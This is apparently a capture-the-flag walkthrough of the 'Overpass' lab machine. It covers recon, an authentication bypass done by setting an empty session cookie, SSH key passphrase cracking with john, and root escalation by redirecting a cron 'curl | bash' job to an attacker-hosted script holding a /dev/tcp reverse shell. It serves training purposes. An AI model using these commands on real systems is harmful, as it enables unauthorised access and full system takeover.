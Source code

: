 # Overpass

**Target IP:** `10.10.17.200` <br>
From `nmap` results we have to open ports:<br>
`22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`<br>
`80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)`<br>
Let's look at the http server.
![http server](https://i.ibb.co/1vqCb4N/2.png)
![The dwnloads page](https://i.ibb.co/L5QhMYp/3.png)
I downloaded the executable for linux and the scripts that apparently are going to help us.
I tried to execute the file.
![Executing the file](https://i.ibb.co/wMD2b9z/4.png)
Let's get into the source code and understand what is going on there. Open script `overpass.go`
We have function **saveCredsToFile** there. And we can see the it takes few arguments there one of which is **filepath**.
In the line 181 we can see that the script uses the function. `saveCredsToFile(credsPath, passlist)` and it uses **credsPath** as filepath.
In the line 140 we can find the credsPath variable. `credsPath, err := homedir.Expand("~/.overpass")`.<br>
So now we know that the encrypted passwords are saved in our home directory.
Here is what we get when we are trying to read the **.overpass** file. 
![.overpass](https://i.ibb.co/0Qd2332/5.png)
It looks like **rot47** encryption. Let's go to **cyberchef** and try to decrypt it.<br>
![Cyberchef](https://i.ibb.co/b2XG0xb/6.png)
So now we know how the script works and where it keeps the passwords.

Also we got interesting comment in the line 91. The comment tells us a name. **steve**. It can be one of the developers and we can try to bruteforce into his ssh. But even if they use this unsecure password manager, probably, we cannot just gues the password. So, let's think about some other way.

Also, **gobuster** found admin page there. But we need credentials to log in there.
Let's look how the authentication form works.
I found this function there:
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
It looks like it makes a request to some api and depends on response it allows or disallows into the admin.
If we take the hint for the first task we can see that this is going to be owasp10 vulnerability and there is no bruteforcing. We can suppose that the vulnerability here is broken authentication and we might be able to bypass the authentication check by just setting the SessionToken cookie to anything.
We can run this code in the browser console to exploit the vulnerability.<br>
`Cookies.set("SessionToken", "")`
Refresh the page and now we are here:
![admin page](https://i.ibb.co/LkNrg6j/7.png)<br>
It looks like there is a private key for james. So let's copy it and try to ssh with it.
The private key works but it wants a passphrase for it. We can crack it with ssh2john and john.<br>
`ssh2john p_id > hash.txt`<br>
`john hash.txt`<br>
The password is **james13**. <br>
Let's ssh into james account.
And now we got the first flag.
![todo.txt](https://i.ibb.co/HtQmk7Q/8.png)<br>
We got these notes there that can give us some more information.<br>
We already know about the **.overpass** file so let's read it.<br>
Here is what we got from there.
![cyberchef](https://i.ibb.co/SmRxDVg/9.png) <br>
`[{"name":"System","pass":"saydrawnlyingpicture"}]`<br>
we can also read **/etc/crontab**<br>
```crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
We can see that it always trying to download **buildscript.sh** from **overpass.thm/downloads/src/**. <br>
God is being glorius today and we can change the **/etc/hosts/** file. So we need to and there the following line:
`<our ip> overpass.thm`. It is going to create a link to our ip instead of the ip that it is supposed to.
In our machine we have to create the environment for this.<br>
`mkdir -m downloads/src/`<br>
Then in the src folder we have to create our file **buildscript.sh** and put there our reverse shell.<br>
`echo "bash -i >& /dev/tcp/10.2.38.40/4444 0>&1" > downloads/src/buildscript.sh`<br>
Now we have to run **nc** to listen to the port that we specified in the reverse shell.<br>
`nc -lvnp 4444`<br>
And finally in the other terminal session we need to start simple python server<br>
`python3 -m http.server 80` **Remember, we need to run it in the parent folder of folder downloads that we created before.**
After few seconds we got the reverse shell to the root user in our nc terminal session.<br>
And now we got the root flag.